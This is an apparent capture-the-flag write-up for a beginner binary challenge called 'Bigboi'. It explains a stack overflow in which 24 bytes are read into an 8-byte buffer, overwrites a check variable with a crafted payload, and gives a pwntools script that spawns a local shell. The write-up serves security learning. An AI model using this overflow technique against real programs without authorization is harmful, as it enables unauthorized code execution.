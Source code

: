 # Bigboi

**24** bytes is being read into an **8** byte buffer, allowing a clobber of the **target** variable to pass the check and execute `/bin/bash`. 

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 buffer;
  undefined8 local_30;
  undefined4 uStack_28;
  int target;
  undefined4 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 40);
  buffer = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  target = L'\xdeadbeef';
  puts("Are you a big boiiiii??");
  read(0,&buffer,24); // VULN
  if (target == L'\xcaf3baee') {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

**20** Bytes of padding allows us to change `0xdeadbeef` to `0xcaf3baee`. 

```bash
python3 -c 'import pwn;print(b"A"*20 + pwn.p32(0xcaf3baee))' > payload
```

Check comparison is at `main+103`.
`
```
pwndbg> disassemble main
   ...
   0x00000000004006a5 <+100>:   mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:   cmp    eax,0xcaf3baee
   ...
   
pwndbg> b *(main+103)
Breakpoint 1 at 0x4006a8
```

Running with the payload as input clobbers the area as expected and skip the `jne`.

```
pwndbg> r < payload
...
 ► 0x4006a8 <main+103>    cmp    eax, 0xcaf3baee     0xcaf3baee - 0xcaf3baee
   0x4006ad <main+108>    jne    main+122                    <main+122>
...
```

Automate that with a Python script

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./boi", checksec=False)
p = process()

payload = b"A"*20 + p32(0xcaf3baee)

p.sendline(payload)
p.interactive()
```

To get a shell

```shell
python3 exploit.py

Are you a big boiiiii??
$ ls
boi  exploit.py  payload  README.md
```